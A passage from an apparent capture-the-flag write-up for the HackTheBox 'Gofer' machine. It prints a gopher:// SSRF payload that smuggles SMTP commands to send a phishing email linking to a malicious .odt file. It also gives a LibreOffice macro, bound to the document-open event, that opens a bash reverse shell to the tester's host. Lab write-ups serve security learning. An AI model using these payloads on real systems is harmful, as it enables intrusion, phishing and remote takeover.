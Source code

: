 Here's the final payload that I used:

{% code overflow="wrap" %}
```
gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.42/date.odt>hello</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```
{% endcode %}

Since there were some quotes I was lazy to deal with, I sent it in Burp and got a reponse saying it worked:

<figure><img src="../../.gitbook/assets/image (786).png" alt=""><figcaption></figcaption></figure>

We would also get hits on our HTTP server.&#x20;

### Document Creation --> RCE

I followed this to create my own malicious `.odt` file:

{% embed url="https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html" %}

Here's the macro I used:

```visual-basic
Sub Main
	Shell("bash -c 'bash -i >& /dev/tcp/10.10.14.42/4444 0>&1'")
End Sub
```

We can then assign this to the Open Document event:

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>
